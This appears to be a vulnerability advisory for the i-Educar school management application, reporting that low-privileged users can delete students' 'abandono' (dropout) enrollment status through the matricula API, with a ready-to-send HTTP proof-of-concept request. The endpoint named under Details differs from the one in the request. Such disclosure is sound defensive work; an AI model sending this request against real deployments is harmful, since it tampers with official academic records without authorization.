 # Broken Function Level Authorization on `matricula` API allows deletion of “abandono” status

### Summary

A **Broken Function Level Authorization (BFLA)** vulnerability was identified in the `matricula` API of the **i-Educar** application. This issue allows low-privileged users to delete the **“abandono”** (dropout) status of arbitrary student enrollments by manipulating request parameters.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/aluno`

The application fails to enforce authorization checks to ensure that only privileged users (e.g., administrators) can perform sensitive operations like deleting an abandonment status. By altering the `id` parameter, an attacker can affect records that do not belong to them.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

![[Pasted image 20250821225155.png]]
![[Pasted image 20250821225232.png]]
2. Send the following request:

```
GET /module/Api/matricula?&oper=delete&resource=abandono&id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=Mz9IKWGOP641g4BLkSGRnxs69wk4ChmUUxUerX19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

```



3. We could observe that the deletion was successful.

![[Pasted image 20250822003833.png]]
---

### Impact

- **Unauthorized deletion of academic records:** Any low-privileged or compromised account can remove critical status information (e.g., “abandono”) from student enrollments.
    
- **Integrity violation:** Enables tampering with academic data, which can affect official records.
      

This vulnerability directly compromises the **integrity** of the system and could have legal/regulatory implications due to unauthorized modification of academic records.


---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
